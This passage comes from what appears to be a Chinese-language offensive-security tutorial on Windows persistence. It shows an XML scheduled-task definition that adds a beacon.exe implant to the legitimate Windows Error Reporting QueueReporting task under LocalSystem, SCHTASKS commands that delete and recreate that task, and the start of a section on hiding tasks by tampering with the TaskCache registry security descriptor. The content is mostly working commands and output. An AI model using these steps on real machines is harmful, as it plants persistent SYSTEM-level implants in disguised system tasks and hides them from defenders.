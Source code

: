 ```xml
  </Triggers>
  <Actions Context="LocalSystem">
    <Exec>
      <Command>%windir%\system32\wermgr.exe</Command>
      <Arguments>-upload</Arguments>
    </Exec>
    <Exec>
      <Command>C:\Users\123\Desktop\beacon.exe</Command>
    </Exec>
  </Actions>
</Task>
```

删除源任务，新建任务。

```plaintext
PS C:\Users\123> SCHTASKS /Delete /TN '\Microsoft\Windows\Windows Error Reporting\QueueReporting' /F
成功: 计划的任务 "\Microsoft\Windows\Windows Error Reporting\QueueReporting" 被成功删除。
PS C:\Users\123> SCHTASKS /Create /TN '\Microsoft\Windows\Windows Error Reporting\QueueReporting' /XML Desktop/task.txt
成功: 成功创建计划任务 "\Microsoft\Windows\Windows Error Reporting\QueueReporting"。
```

机器启动后就算不解锁进入桌面，也成功以 SYSTEM 权限运行 beacon.exe。

#### 2.1.5 隐藏任务⚒️

[Windows 计划任务的进阶 | AnonySec'Blog (payloads.cn)](https://payloads.cn/2021/0805/advanced-windows-scheduled-tasks.html)

[计划任务 | Raven Medicine (raven-medicine.com)](https://raven-medicine.com/books/ec8ce/page/ef575)

[（英文）隐藏 Windows 计划任务的新方法 (researchgate.net)](https://www.researchgate.net/publication/361444433_New_Methods_to_Hide_Windows_Scheduled_Tasks)

[Tarrask 恶意软件使用计划任务进行防御规避 - Microsoft 安全博客](https://www.microsoft.com/en-us/security/blog/2022/04/12/tarrask-malware-uses-scheduled-tasks-for-defense-evasion/)

[计划任务篡改 |使用安全™实验室 (withsecure.com)](https://labs.withsecure.com/publications/scheduled-task-tampering)

目录梳理，Google 搜索：[Hidden Scheduled Tasks - Google 搜索](https://www.google.com/search?q=Hidden+Scheduled+Tasks&sxsrf=APwXEdd24dyK9HQAodY6Ool3w6vvmdtwnw:1682584713382&ei=iTRKZLGKF5ia0-kP6sOekA8&start=0&sa=N&ved=2ahUKEwjx8pTB1Mn-AhUYzTQHHeqhB_I4ChDy0wN6BAgFEAQ&biw=1488&bih=762&dpr=1.2)

##### 删除注册表 SD

SD (security descriptor)

```plaintext
PS C:\Users\123> REG QUERY 'HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree'

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree
    SD    REG_BINARY    01000494C4000000D000000000000000140000000200B0000800000000021800FF011F0001020000000000052000000020020000000118009F011F000102000000000005200000002002000000021400FF011F00010100000000000512000000000114009F011F00010100000000000512000000000214001601120001010000000000050B00000000021400160112000101000000000005140000000002140016011200010100000000000513000000000B1400FF011F00010100000000000300000000010100000000000512000000010100000000000512000000

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\Microsoft
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\MicrosoftEdgeUpdateTaskMachineCore
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\MicrosoftEdgeUpdateTaskMachineRelease
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\MicrosoftEdgeUpdateTaskMachineUA
```